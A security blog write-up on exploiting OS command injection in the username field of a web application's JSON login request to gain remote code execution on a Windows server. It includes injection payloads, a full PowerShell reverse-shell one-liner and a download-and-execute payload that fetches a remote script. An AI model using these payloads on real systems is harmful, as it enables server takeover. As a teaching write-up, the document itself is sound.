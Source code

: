```yaml
---
title: "OS Command Injection to Remote Code Execution"
layout: post
date: 2024-12-10 02:0
categories: blog
---
```


Exploiting OS Command Injection for Remote Code Execution.

## Target Background
The target is a web application designed for asset management, allowing users to create and manage assets efficiently.

## Authentication Mechanisms
The application supports multiple authentication methods, including a standard login form, Google SSO, and GitHub SSO.

## Identifying the Attack Vector
The attack vector was identified as the login form. Users authenticate by submitting valid credentials through this form. Detailed reconnaissance revealed that the **username** field in the JSON request object is susceptible to OS Command Injection.

## Attack Surface Analysis
During reconnaissance, it was determined that the application operates on a Windows environment. This insight guided the selection of Windows-specific OS command payloads for vulnerability testing. The application’s response was observed to return boolean values (true or false), prompting the use of out-of-band (OOB) techniques to confirm the existence of the vulnerability.

As the application response was observed to be boolean **true** or **false** the out of band request technique was used to confirm the attack vector.

### Request
```http
POST /username_exists HTTP/1.1
Host: target.com
Cookie: session cookie: hello
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Connection: keep-alive

{
	"username": "whoami"
}
```

### Response
```http
HTTP/1.1 200 OK
Server: nginx/1.22.1
Date: Wed, 23 Oct 2024 14:55:05 GMT
Content-Type: text/html; charset=utf-8
Connection: keep-alive
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Download-Options: noopen
X-Permitted-Cross-Domain-Policies: none
Referrer-Policy: strict-origin-when-cross-origin
Cache-Control: no-store
Pragma: no-cache

{
	"success": false
}
```

To validate the attack vector, various OOB techniques such as ping, curl, and wget were employed. Payloads using the ping command revealed variations in response times, confirming the vulnerability.

## Example Payloads
Windows OS Command injection payload used for exploitation.

```text
|ping -c 5 127.0.0.1||
|curl https://thevillagehacker.com/exploit/file.txt||
```

Using the curl technique, a file was successfully downloaded from a remote server, confirming command injection.

## Exploitation
Based on the Windows environment of the application, a PowerShell reverse shell payload was selected for exploitation. This approach enabled a reverse connection to the attacker’s machine.

## PowerShell Reverse Shell Payload

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## Final Exploitation Payload

```powershell
|powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('https://thevillagehacker.com/mypowershell.ps1')"||
```

Upon injecting the above payload, a reverse shell connection was established with the application server. Since the application was running with administrative privileges, full control of the server was achieved.

## Conclusion
The exploitation of an OS Command Injection vulnerability in the **username** field of the login form enabled remote code execution on the target system. The successful attack highlights the importance of securing input fields and implementing robust validation mechanisms to prevent such vulnerabilities.

## Reference
- https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).